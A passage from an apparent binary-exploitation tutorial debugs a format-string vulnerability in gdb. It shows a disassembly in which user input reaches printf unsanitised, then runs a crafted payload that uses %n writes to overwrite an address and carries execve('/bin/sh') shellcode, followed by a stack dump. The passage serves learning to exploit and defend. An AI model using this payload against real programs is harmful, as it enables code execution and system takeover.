 It shows that the input string is placed at `0xffffcf68`. So, it says that the string is copied to this address. Let's determine this address inside gdb and next calculate the offset.
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  disas main
Dump of assembler code for function main:
   0x080491b6 <+0>:	endbr32
   0x080491ba <+4>:	lea    ecx,[esp+0x4]
   0x080491be <+8>:	and    esp,0xfffffff0
   0x080491c1 <+11>:	push   DWORD PTR [ecx-0x4]
   0x080491c4 <+14>:	push   ebp
   0x080491c5 <+15>:	mov    ebp,esp
   0x080491c7 <+17>:	push   ebx
   0x080491c8 <+18>:	push   ecx
   0x080491c9 <+19>:	sub    esp,0xd0
   0x080491cf <+25>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x080491d4 <+30>:	add    ebx,0x2e2c
   0x080491da <+36>:	mov    eax,ecx
   0x080491dc <+38>:	mov    eax,DWORD PTR [eax+0x4]
   0x080491df <+41>:	add    eax,0x4
   0x080491e2 <+44>:	mov    eax,DWORD PTR [eax]
   0x080491e4 <+46>:	sub    esp,0x4
   0x080491e7 <+49>:	push   0xc8
   0x080491ec <+54>:	push   eax
   0x080491ed <+55>:	lea    eax,[ebp-0xd0]
   0x080491f3 <+61>:	push   eax
   0x080491f4 <+62>:	call   0x8049090 <strncpy@plt>
   0x080491f9 <+67>:	add    esp,0x10
   0x080491fc <+70>:	sub    esp,0xc
   0x080491ff <+73>:	lea    eax,[ebp-0xd0]
   0x08049205 <+79>:	push   eax
   0x08049206 <+80>:	call   0x8049070 <printf@plt>
   0x0804920b <+85>:	add    esp,0x10
   0x0804920e <+88>:	mov    eax,0x0
   0x08049213 <+93>:	lea    esp,[ebp-0x8]
   0x08049216 <+96>:	pop    ecx
   0x08049217 <+97>:	pop    ebx
   0x08049218 <+98>:	pop    ebp
   0x08049219 <+99>:	lea    esp,[ecx-0x4]
   0x0804921c <+102>:	ret    
End of assembler dump.
ef➤  b *main + 67
Breakpoint 1 at 0x80491f9
gef➤  r $(python -c 'print "\xec\xcf\xff\xff" + "\xee\xcf\xff\xff" + "%53024u" + "%6$n" + "%12503u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xec\xcf\xff\xff" + "\xee\xcf\xff\xff" + "%53024u" + "%6$n" + "%12503u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')

Breakpoint 1, 0x080491f9 in main ()

gef➤  x/100wx $esp - 0x100
0xffffcdf0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffce00:	0x00000000	0x00000000	0xf7ffd000	0x00000000
0xffffce10:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffce20:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffce30:	0x00000000	0xffffffff	0x00000000	0xf7dc658c
0xffffce40:	0xf7fcb110	0x00000000	0xffffce4c	0x00000000
0xffffce50:	0x00000000	0x00000240	0x00000340	0x00000380
0xffffce60:	0x00000380	0x00000001	0x00000000	0x080482c2
0xffffce70:	0x0804c014	0xf7fe19ae	0x080482c2	0xf7ffd980
0xffffce80:	0xffffceb4	0xf7ffdb40	0xf7fcb410	0x00000001
```